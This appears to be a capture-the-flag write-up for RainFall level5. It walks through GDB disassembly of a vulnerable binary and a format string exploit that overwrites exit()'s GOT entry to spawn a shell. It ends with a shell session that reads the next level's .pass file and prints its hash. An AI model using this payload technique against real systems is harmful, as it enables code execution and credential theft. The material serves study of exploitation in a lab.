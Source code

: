 # level5

## exploring the binary
```shell
level5@RainFall:~$ ./level5
phantom
phantom
level5@RainFall:~$ ./level5
society 42
society 42
```
Similar to previous levels, this binary program awaits standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
The input is once again collected using <code>fgets()</code> and safeguarded against buffer overflow. This function does not return to <code>main()</code> - it immediately terminates by calling <code>exit()</code>. It appears that we may encounter a <code>format string</code> attack again. We decide to look for other functions, since this is one is not offering much.
```shell
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```
This reveals function <code>o()</code>, which is not used during runtime.
``` shell
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

At memory address <code>0x80485f0</code>, we locate the sought-after <code>/bin/bash</code>. Consequently, our next task is to devise a method to invoke this function at runtime.
```shell
(gdb) x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```
## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level5@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern5
level5@RainFall:~$ cat /tmp/pattern5 - | ./level5
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found that the string <code>AAAA</code> resides in the fourth position of the buffer. Our next task is to locate the address of the <code>exit()</code> function, as we intend to overwrite this address with the address of our function <code>o()</code> (<code>0x080484a4</code>). To accomplish this, we need to inspect the dynamic relocation entries, which include the addresses stored in the <code>Global Offset Table (GOT)</code>:
``` shell
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
This reveals that <code>exit()</code> resides at address <code>0x08049838</code>. With this information, we can now construct the <code>format string</code> attack to overwrite the address of <code>exit()</code> with the address of the <code>o()</code> function. To accomplish this using <code>printf()</code>, we first convert the hexadecimal address of <code>o()</code> to its decimal equivalent:
```shell
(gdb) print 0x080484a4
$1 = 134513828
```

## exploit
``` shell
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/flag5
level5@RainFall:~$ cat /tmp/flag5 - | ./level5
[...]
                                                                                                  512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
